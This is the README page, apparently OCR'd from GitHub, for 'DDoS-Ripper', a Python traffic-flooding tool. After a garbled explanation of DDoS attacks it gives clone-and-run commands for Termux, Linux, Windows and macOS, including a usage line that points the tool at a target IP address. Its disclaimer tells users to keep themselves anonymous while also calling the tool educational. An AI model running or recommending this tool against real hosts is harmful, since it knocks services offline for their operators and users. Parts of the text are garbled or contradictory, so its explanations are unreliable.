 DDoS-Ripper
What is a DDoS Attack?
A Distributable Denied-of-Service (DDOS) attack server that cuts off targets or surrounding infrastructure in a flood of Internet traffic

DDoS attacks achieve effectiveness using multiple compromised computer systems as a source of attack traffic. Search engines may include computers and other network resources such as IoT devices. From a higher level, the DDOS attack is like an unexpected traffic jam stuck on a highway, preventing regular traffic from reaching its destination.

NOTE (Please, make sure you have installed python 3 )
dddd

For Termux
To use the DRipper type the following commands in Termux:

pkg install git -y

pkg install python -y

pkg install python3 -y

git clone https://github.com/DatDDino/DDoS-Ripper.git

cd DDoS-Ripper $ ls

$ python3 DRipper.py

USGAE
python3 DRipper.py -s [ip Address] -t 135

example: python3 DRipper.py -s 0.00.00.00 -t 135

For Debian-based GNU/Linux distributions
To use the application, type in the following commands in GNU/Linux terminal.

sudo apt install git git clone https://github.com/palahsu/DDoS-Ripper.git cd DDoS-Ripper $ ls $ python3 DRipper.py OR python2 DRipper.py

For Windows
git clone https://github.com/DatDDino/DDoS-Ripper

cd DDoS-Ripper ls

python3 DRipper.py OR python DRipper.py

python3 DRipper.py -s [ip Address] -t 135

example: python3 DRipper.py -s 0.00.00.00 -t 135

For MacOS
Install Brew and Install dependencies (python 3)

Note:
If you find any problems than please write on issue github and to our Telegram Group. Don't use for revenge! Make sure your anonymity! It's made for just testing purpose. We are not responsible for any abuse or damage caused by this program. Only for Educational Purpose. Thanks.

Requirments ▶
●🖥Linux OS( Kali 🐉 Ubuntu )

●📱Termux >

●🖥Windows

●🖥MAC

Modified by @LeMinhDat
